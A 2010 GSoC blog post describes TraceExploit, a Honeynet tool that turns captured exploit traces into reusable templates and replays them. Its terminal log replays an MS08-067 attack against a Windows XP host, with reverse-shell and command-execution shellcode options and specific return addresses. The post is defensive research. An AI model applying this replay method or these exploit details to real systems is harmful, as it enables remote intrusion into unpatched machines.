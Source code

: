 ```yaml
---
title: "TraceExploit: Replaying method dissection"
authors: ["Zhongjie Wang"]
date: "2010-08-17"
categories: 
  - "gsoc"
tags: 
  - "exploit-replay"
  - "gsoc"
  - "traceexploit"
---
```

{{<figure src="images/banner.png" alt="Banner" width="50%">}}

I've been working on the GSOC Project 14 in recent months. We are meant to start a new tool which can replay the collected exploit traces.  

We know that during the process of exploit replay, there're many fields need to be changed in the original application messages. Some of them are platform independent, and the others are platform specific. Platform-independent variables are those changed each time we exploit, like timestamp, cookie, length, etc. And platform-specific variables are those changed only if the target system is changed, like target address, return address point to the shellcode.  

As a preprocessing stage, all the variables need to be marked out in the application messages, so we have a Discoverer module to extract the common exploit template from a pack of exploit traces aiming at certain vulnerability. Then the rest part of this article is a brief introduction about how to perform replay with the exploit template.  

Replayer do the following work:  

1. Load the template into structures in memory. The template is in XML format and an example is attached. It includes three main sections, message sequences, variable list and exploit information.  
2. User input exploit options and specify some of the variable values like target address, application args, and choose the shellcode to run.  
3. Auto detect the target environment or user specify it. Then the tool will generate the values of rest variables.  
4. Perform the replay. Fill the application messages with variable values before sending, and retrieve the variable values from received messages.  
5. Examine whether the replay is successful.  

I have done some experiments based on the ms08-067 vulnerability. First I used Metasploit to attack a xp sp2 target host and captured the packets. Then made it into exploit template. After that, I used Replayer to perform an attack to a xp sp3 host. Here's the result:  
  
```
alan@alan-desktop:~/Work/workspace/replayer$ ./replayer profile2.xml  
TraceXploit (POC) Replayer 0.1  
https://www.honeynet.org  
by Zhongjie Wang 2010.8.15  
  
Loading exploit template 'profile2.xml'...ok.  
Retrieving arguments list...ok.  
  
[Basic User Options]  
(which are related to target environment, like ip, port, etc.)  
Target IP:219.223.192.149  
Port:445  
Select target OS:  
1. Automatic Targeting  
2. Windows 2000  
3. Windows XP SP1 Simplified Chinese  
4. Windows XP SP2 Simplified Chinese  
5. Windows XP SP3 Simplified Chinese  
Input the number: 4  
  
[Advanced User Options]  
(which are related to the vulnerability we're exploiting.)  
Variable name: smbpipe  
Variable type: arguments  
Possible values: BROWSER, SRVSVC  
Input the value: BROWSER  
  
[Exploit Options]  
(which user can customize shellcode and return address.)  
Here're all the shellcode available:  
1. Windows Cmd Shell, Bind TCP Inline  
2. Windows Cmd Shell, Reverse TCP Inline  
3. Windows Execute Command  
Please input the number: 3  
*******************************  
* windows/exec - 196 bytes *  
* http://www.metasploit.com *  
* Encoder: generic/none *  
*******************************  
Cmd to run:calc  
shellcode has been replaced.  
auto selected return address 'disablenx': 0x58fc17c2  
auto selected return address 'jmpesi': 0x58fbf807  
  
Begin to replay exploit to 219.223.192.149:445...  
Data flow in hex format is saved into 'dataflow.txt'.  
Update variable 'ip' in seq 0 msg 8, offset 50. 
Update variable 'smbpipe' in seq 0 msg 10, offset 88. 
Update variable 'length_18' in seq 0 msg 18, offset 1. 
in seq 0. Connection reset by peer  
replay has been done.  
```
  
The hex data transfered between two machines are saved into 'dataflow.txt' which is also attached.  

In this version of replayer, following variable types are taken into consideration:  

- **IP, Port** usually the values of IP and port for initial connection should be given by user, and the values of that for successive connections should be get from messages.  
- **Argument** usually means the arguments used to access the vulnerable services, e.g, username, password, address...  
- **Cookie** cookies are retrieved from the received messages and filled into the sending messages.  
- **Length** automatically calculated before messages are sent.
- **Shellcode** now we have three shellcodes written into the source code.
- **Return Address** we built a tiny return address database in order to detect the return addresses in messages and choose alternative return addresses.

Because I don't know how to upload file here, here's the link to the attachment:  
[a exploit template sample](http://gkso.appspot.com/media/agRna3Nvcg0LEgVNZWRpYRjRgwQM/profile2.xml)  
[dataflow.txt](http://gkso.appspot.com/media/agRna3Nvcg0LEgVNZWRpYRi5iwQM/dataflow.txt)
